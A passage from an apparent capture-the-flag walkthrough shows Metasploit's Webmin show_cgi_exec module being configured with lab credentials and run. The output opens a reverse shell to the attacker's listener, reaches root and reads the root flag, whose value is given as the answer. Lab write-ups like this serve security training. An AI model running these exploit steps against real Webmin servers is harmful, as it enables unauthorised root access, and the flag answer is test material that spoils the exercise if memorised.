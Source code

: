 Set rhosts 127.0.0.1, set ssl false,set username agent47, and password videogamer124, set lhost <ur_ip>, and then either run or exploit.

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on 10.13.29.43:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo WCfS4A7K0xcSSnHO;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "WCfS4A7K0xcSSnHO\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.13.29.43:4444 -> 10.10.61.25:41080 ) at 2021-11-04 12:23:43 -0400

whoami
root
```
```
cd /root
ls
root.txt
cat root.txt
a4b945830144bdd71908d12d902adeee
```

**What is the root flag?**

a4b945830144bdd71908d12d902adeee

